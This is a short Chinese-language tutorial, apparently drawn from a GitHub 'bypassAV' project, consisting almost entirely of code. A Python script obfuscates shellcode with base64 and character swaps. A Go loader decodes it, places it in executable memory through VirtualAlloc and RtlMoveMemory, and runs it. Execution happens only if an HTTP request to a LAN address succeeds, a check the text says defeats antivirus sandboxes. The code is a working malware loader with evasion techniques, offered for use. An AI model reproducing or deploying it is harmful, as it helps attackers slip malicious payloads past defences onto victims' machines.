 首先对shellcode进行简易混淆

```python
# https://github.com/pureqh/bypassAV/blob/main/go_shellcode_encode.py
import base64

buf1 =  b"shellcode"
b64shellcode = base64.b64encode(buf1).decode()
b64shellcode = b64shellcode.replace("A","#").replace("H","!").replace("1","@").replace("T",")")
print(b64shellcode)
```

这里条件触发，指的是在最后指令执行前 先访问一次局域网内存在而沙箱内不存在的文件，达到bypass沙箱的效果

```go
// https://github.com/pureqh/bypassAV/blob/main/main.go
package main

import (
	"encoding/base64"
	"net/http"
	"net/url"
	"strings"
	"syscall"
	"unsafe"
)

var (
	kernel32      = syscall.NewLazyDLL("kernel32.dll")
	VirtualAlloc  = kernel32.NewProc("VirtualAlloc")
	RtlMoveMemory = kernel32.NewProc("RtlMoveMemory")
)

func build(ddm string) {
	str1 := strings.Replace(ddm, "#", "A", -1)
	str2 := strings.Replace(str1, "!", "H", -1)
	str3 := strings.Replace(str2, "@", "1", -1)
	str4 := strings.Replace(str3, ")", "T", -1)
	sDec, _ := base64.StdEncoding.DecodeString(str4)
	addr, _, _ := VirtualAlloc.Call(0, uintptr(len(sDec)), 0x1000|0x2000, 0x40)
	_, _, _ = RtlMoveMemory.Call(addr, (uintptr)(unsafe.Pointer(&sDec[0])), uintptr(len(sDec)))
	syscall.Syscall(addr, 0, 0, 0, 0)

}
func main() {
	u, _ := url.Parse("http://192.168.31.29/pay")
	q := u.Query()
	u.RawQuery = q.Encode()
	res, err := http.Get(u.String())
	if err != nil {
		return
	}
	resCode := res.StatusCode
	res.Body.Close()
	if err != nil {
		return
	}
	var y int = 200
	if resCode == y {
		build("")	// b64 payload here
	}
}
```
